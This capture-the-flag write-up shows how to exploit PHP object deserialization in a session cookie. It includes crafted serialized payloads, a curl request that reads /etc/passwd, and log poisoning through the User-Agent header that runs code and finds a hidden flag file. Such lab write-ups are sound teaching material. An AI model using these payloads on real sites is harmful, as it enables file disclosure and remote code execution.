

# Toxic

given a website with following code: 
```php 
<?php
spl_autoload_register(function ($name){
    if (preg_match('/Model$/', $name))
    {
        $name = "models/${name}";
    }
    include_once "${name}.php";
});

if (empty($_COOKIE['PHPSESSID']))
{
    $page = new PageModel;
    $page->file = '/www/index.html';

    setcookie(
        'PHPSESSID', 
        base64_encode(serialize($page)), 
        time()+60*60*24, 
        '/'
    );

    

} 

$cookie = base64_decode($_COOKIE['PHPSESSID']);
unserialize($cookie);
```

If no cookie is set it serializes the current page object and saves it base64 encoded as a cookie. However if the request already contains a cookie it tries to unserialize it which could be exploited. 
The serialized cookie looks like the following: 
```
O:9:"PageModel":1:{s:4:"file";s:15:"/www/index.html";}%
```

> note that all the `s:` represents the size of all the following strings and should be modified if the strings changes

The `PageModel` has an attribute `file` which is `include`d.
```php
<?php
class PageModel
{
    public $file;

    public function __destruct() 
    {
        include($this->file);
    }
}
```

So if we can modify the `file` attribute which gets unserialized get have a chance that this file gets presented. 

As a little proof of concept we can try to load the `/etc/passwd` file. 
Therefore we have to modify the serialized object like the following: 
```
O:9:"PageModel":1:{s:4:"file";s:11:"/etc/passwd";}%
```

> note the size again

Now we have to base64 encode this object again. 

```
echo 'O:9:"PageModel":1:{s:4:"file";s:11:"/etc/passwd";}%' | base64
```

Now send a request to the site with the crafted cookie:

```bash
curl localhost:1337/index.php --cookie "PHPSESSID=Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoxMToiL2V0Yy9wYXNzd2QiO30lCg=="
```

We get the `passwd` file back :D

The problem now is, that the flag gets randomized like the following:

```bash
# Generate random flag filename
mv /flag /flag_`cat /dev/urandom | tr -dc 'a-zA-Z0-9' | fold -w 5 | head -n 1`
```

So it is impossible to predict the file name. Also it is not possible to get the contents of the directory with the `include` function. 

But whats possible instead is to poison the logfile and display it. Since the `include` function tries to display all files like php files and tries to execute php code in it we can simply make a request with php code as user agent and the code gets written to the log file. 
To keep it simple I just execute a `ls /` to print all contents of the root directory. 


We also know where the log file is because of the provided `nginx.conf`
When we now modify the object to load the logfile `/var/log/nginx/access.log`
```
echo 'O:9:"PageModel":1:{s:4:"file";s:25:"/var/log/nginx/access.log";}%' | base64
```
It includes the logfile and executes the code we send in the step before. 

We get presented the acutal filename of the flag and can read the flag again with the modified object which gets unserialized. 
